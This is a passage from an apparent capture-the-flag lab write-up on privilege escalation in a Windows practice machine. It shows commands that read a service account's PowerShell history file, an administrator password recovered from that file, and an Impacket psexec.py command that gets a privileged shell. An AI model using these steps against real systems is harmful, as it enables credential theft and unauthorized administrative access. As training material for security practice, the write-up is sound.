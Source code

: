 Using Tmux, that’s all in one window:

<div style="width:100%; background-color:#252b34"><img src="StartingPoint_6.png"></div>

### &#9676;  Privilege Escalation
======================

As this is a normal user account as well as a service account, it is
worth checking for frequently access files or executed commands. We can
use the *type* command to access the PowerShell history file.
``` shell
  ------------------------------------------------------------------------------------------------------------------
  type C:\\Users\\sql\_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost\_history.txt
  ------------------------------------------------------------------------------------------------------------------
```
From the ConsoleHost\_history.txt we can see the administrator password:
``` shell
  -------------------------------------------------------------------------------------
  net.exe use T: \\\\Archetype\\backups /user:**administrator** **MEGACORP\_4dm1n!!**
  
  exit
  -------------------------------------------------------------------------------------
```
<div style="width:100%; background-color:#252b34"><img src="StartingPoint_7.png"></div>

This also reveals that the backups drive has been mapped using the local
administrator credentials. We can use Impacket's psexec.py to gain a
privileged shell.
``` shell
  ------------------------------------------------------------------------------------------
  python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27
  ------------------------------------------------------------------------------------------
```

<br>
Once gained the privileged shell, we can now search for <b>"root.txt"</b>
<br><br>